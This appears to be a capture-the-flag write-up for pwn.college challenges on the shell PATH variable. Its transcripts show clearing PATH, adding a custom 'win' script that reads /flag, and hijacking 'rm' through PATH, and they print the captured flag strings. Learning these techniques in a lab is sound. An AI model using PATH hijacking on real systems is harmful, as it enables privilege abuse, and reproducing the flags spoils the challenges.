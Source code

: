 # The PATH variable
The PATH variable stores a bunch of directory paths.FOr the flag we run `PATH=""` to export path variable as empty string which we prevent the program from accessing the rm command.

Command line:

```
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{skRDGcyF2P0n4na1Jpql0TtW5Ds.dZzNwUDL4ADO0czW}
```

# Setting path
In this challenge we need to run the `/challenge/run` to execute the win command. We add the path of the command to PATH variable and then run the program to get the flag.

Command line:

```
hacker@path~setting-path:~$ PATH=/challenge/more_commands
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{YdOQY7_46MkzXp-S49TO3PTUEue.dVzNyUDL4ADO0czW}
```

# Adding commands
Here first we crete a file win using `nano` 
```
read Flag < /flag
echo $Flag
```
Then we make it executable for all using `chmod a+x win`
We add the path to the PATH variable.
For the flag we run the program `/challenge/run`

Command line:

```
hacker@path~adding-commands:~$ touch win
hacker@path~adding-commands:~$ nano win
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ export PATH=/home/hacker:$PATH
hacker@path~adding-commands:~$ echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ chmod a+x /home/hacker/win
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{0MV3bv5dfzFxROAyFETd-pCqhPY.dZzNyUDL4ADO0czW}
```

# Hijacking commands

Command line:

```
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{wLxVBSWe7xlr4wbk7SlQ-j0gx_f.ddzNyUDL4ADO0czW}
```
